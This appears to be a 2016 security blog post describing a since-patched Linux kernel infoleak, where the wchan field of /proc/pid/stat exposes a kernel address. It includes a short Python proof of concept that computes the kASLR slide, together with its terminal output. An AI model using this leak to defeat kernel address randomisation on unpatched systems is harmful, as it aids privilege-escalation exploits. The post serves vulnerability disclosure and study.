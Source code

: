 ```yaml
---
layout: post
title:  "Exploiting a Linux Kernel Infoleak to bypass Linux kASLR"
date:   2016-01-24 13:00:00 +0800
categories: security linux
---
```


## Preliminary note

This has been patched here so there should be no problem talking about it: [http://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/commit/?id=b2f73922d119686323f14fbbe46587f863852328](http://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/commit/?id=b2f73922d119686323f14fbbe46587f863852328)

Also kASLR is not enabled yet by default on popular distribution as far as I know.

I hope that in the recent future it will become mainstream, and much stronger, both on Linux distros and Android devices, since it makes kernel exploitation likely to require also a infoleak, and the other popular mainstream OS like Windows or OS X/iOS are already adopting it, why Linux is always lagging behind?

ASLR anyway it's not the holy grail of security, as we will see in the post, it can be bypassed even with a simple leak. 
You can read [this post][spender-forum] by spender on the topic and some thoughts about the limitations.

I saw several time [@grsecurity][grsecurity-twitter] mentioning a similar vulnerability on Twitter, so it was most likely very well known also by other people before me. 
But unfortunately, the Linux kernel community attitude towards Security is not the best one, so infoleaks are probably getting very low attention, if any.

### Post

Time ago while reading on /proc filesystem for Android, the `wchan` field caught my attention:

{% highlight text %}
WCHAN

wait channel. The address of an event on which a particular process is waiting.
Abbreviation appears in output of ps command with -l option.
{% endhighlight %}

You can peek into a process `wchan` value from userspace reading into `/proc/pid_of_interest/stat`.

So this `wchan` value will return the address of where our program is "waiting". That's pretty vague. What about if our process is in kernel space, will it return us a kernel address?

The answer is yes, as you can see here:

{% highlight text %}
marco@marco-l:~/Documents$ cat /proc/2755/stat
2755 (sleep) S 2499 2755 2499 34817 2759 1077960704 124 0 0 0 0 0 0 0 20 0 1 0 82435 11673600 170 18446744073709551615 4194304 4218740 140722592633520 140722592633144 140073761328928 0 0 0 0 18446744071579755915 0 0 17 1 0 0 0 0 0 6319632 6320692 32489472 140722592637401 140722592637415 140722592637415 140722592641005 0
{% endhighlight %}

The value `18446744071579755915` it's obviously a kernel code location since in hex is: 

{% highlight python %}
>>> hex(18446744071579755915)
'0xffffffff810de58bL'
{% endhighlight %}

kASLR is not enabled by default on Ubuntu, at least 14.04, so we will have to add a "kaslr" to the kernel command line to enable it, you can find how to add stuff into the kernel command line on Google.

After we have booted the system, we can run our PoC:

{% highlight terminal %}
marco@marco-l:~/Documents$ python infoleak.py 
Leaking kernel pointers...
leak: 0xffffffffb70de58b 18446744072485725579
kASLR slide: 0x36000000
{% endhighlight %}

#### How does it works?

The PoC is very simple, dirty and quick, and in python since we just need to fork and read stuff. Like we said before, in /proc/pid/stat the wchan will tell us where the code is waiting in kernel space so we can:

1. Find a way to make stable this "wait" location
2. Leak the ASLR'd value via the wchan
3. Diff this leaked value with a known non slided value
4. Output the kernel slide

For `(1)` we can leverage that if we fork a process and make it sleep, we can both read his `/proc/sleeping-pid/stat` and it will be a stable value, since that process will be stuck to sleep in kernel space, waiting to be rescheduled when his sleep is finished.

`(2)` was already covered how to do it, it's one of the fields in the stat at a known position.

`(3)` we can get the non slid value by running the kernel without kASLR enabled on our test machine.

#### PoC

You will have to edit the `NON_SLID_VALUE` by running the PoC on your target kernel with kASLR disabled, putting the hex value that you get in `leak: 0xffffffffb70de58b`.

{% highlight python %}
import subprocess
import time
import sys

import pprint

PROC_PATH = "/proc/%d/stat"

NON_SLID_VALUE = 0xffffffff810de58b

def main():
    sleepp = subprocess.Popen('sleep 100000'.split())

    time.sleep(1)

    child_pid = sleepp.pid

    content = None
    with open(PROC_PATH %(child_pid), 'r') as f:
        content = f.read()
    
    if not content:
        print 'Unable to read stat from child'
        sys.exit(0)

    elements = content.split()

    print 'Leaking kernel pointers...'

    leak = int(elements[34])

    print 'leak: 0x%x %d' %(leak, leak)

    print 'kASLR slide: 0x%x' %(leak - NON_SLID_VALUE)


if __name__ == '__main__':
    main()

{% endhighlight %}

## Final Note

Feel free to contact me if there is any error/mistake/question or suggestion. 
The bug nowadays since kASLR is not enabled by default was not really useful so I didn't spend much time and efforts verifying everything and check the kernel code.

The kASLR slide seems quite weak in terms of randomization, I haven't checked how much bits, but it's better than nothing if we can get this on our Android devices, it's a start. :)

#### Take aways:
- The Linux kernel maintainers should show a more friendly attitude to the security community, at the end we all like and use Linux, and we would both like to make it even better.

[spender-forum]: https://forums.grsecurity.net/viewtopic.php?f=7&t=3367
[grsecurity-twitter]: https://twitter.com/grsecurity
